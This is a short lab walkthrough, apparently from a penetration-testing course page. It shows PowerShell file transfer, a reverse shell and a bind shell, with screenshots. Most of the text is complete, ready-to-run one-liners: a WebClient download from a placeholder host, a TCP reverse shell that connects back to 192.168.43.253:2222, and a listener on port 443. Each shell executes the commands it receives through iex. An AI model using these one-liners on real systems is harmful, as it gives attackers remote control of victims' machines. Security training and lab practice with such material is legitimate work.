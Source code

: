 # Task 2 Powershell

### **Powershell File Transfers**

* Create a file to be transfered

![](.gitbook/assets/1_powershell.jpg)

* Start python server

![](.gitbook/assets/2_powershell.jpg)

* Run below command

```text
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

![](.gitbook/assets/3_powershell.jpg)

### Powershell Reverse Shell

* Run the listener

![](.gitbook/assets/1_powershell_reverse_shell.jpg)

* Run the command in cmd

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.43.253',2222);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](.gitbook/assets/2_powershell_reverse_shell.jpg)

* We get the shell

![](.gitbook/assets/3_powershell_reverse_shell.jpg)

### Powershell Bind shell

![](.gitbook/assets/1_bind_shell_powershell.jpg)

```text
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

![](.gitbook/assets/2_bind_shell_powershell.jpg)

